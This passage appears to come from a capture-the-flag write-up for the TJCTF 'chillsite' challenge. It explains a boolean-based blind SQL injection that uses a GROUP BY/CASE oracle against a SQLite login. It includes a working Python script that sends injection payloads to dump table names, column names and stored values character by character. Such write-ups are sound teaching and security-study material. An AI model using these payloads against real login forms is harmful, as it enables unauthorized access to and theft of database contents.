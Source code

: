 → Only one user → Condition is `False` ❌

- If the condition is true, all results will be grouped by `user`, and we’ll see multiple users in the response (sorted according to the usual logic).

Example: Testing if first letter of first table name is `s`:

![2](/images/tjctf/chillsite/step6.png)

→ Multiple users → Condition is `True` ✅

Following this logic, we can automate the process in Python to dump the entire database.

```python
import requests
import string
import re

def dump_table_name(pos, char): # Resulting 'database' and 'stats' 
    return f"' || pass <> '' GROUP BY (CASE WHEN (SELECT SUBSTR(name, {pos}, 1) FROM sqlite_master WHERE type='table' LIMIT 1 OFFSET 0) = '{char}' THEN user ELSE 'randomSh1t' END) /*"

def dump_column_name(table_name, pos, char): # Resulting 'user', 'pass' and 'time'
    return f"' || pass <> ''  GROUP BY  (CASE WHEN (SELECT SUBSTR(name, {pos}, 1) FROM pragma_table_info('{table_name}') LIMIT 1 OFFSET 0) = '{char}' THEN user ELSE 'randomSh1t' END) /*"

def dump_value(column_name, pos, char):
    return f"' || pass <> '' GROUP BY (CASE WHEN (SELECT SUBSTR({column_name}, {pos}, 1) FROM stats LIMIT 1 OFFSET 0) = '{char}' THEN user ELSE 'randomSh1t' END) /*"

url = "https://chill-site-8fc6707c0bcab21d.tjc.tf/"
leaked_data = list("")
charset = string.printable

while True:

    found_char = False

    for char in charset:
        pos = len(leaked_data) + 1
        
        payload = dump_table_name(pos, char)

        data = {
            "username": payload,
            "password": "test"
        }

        response = requests.post(url, data=data, allow_redirects=True)

        usernames = re.findall(r"Username: ([\w\d]+)", response.text)

        if len(usernames) > 1:
            found_char = True
            leaked_data.append(char)
            print("[+] ", ''.join(leaked_data))
            break

```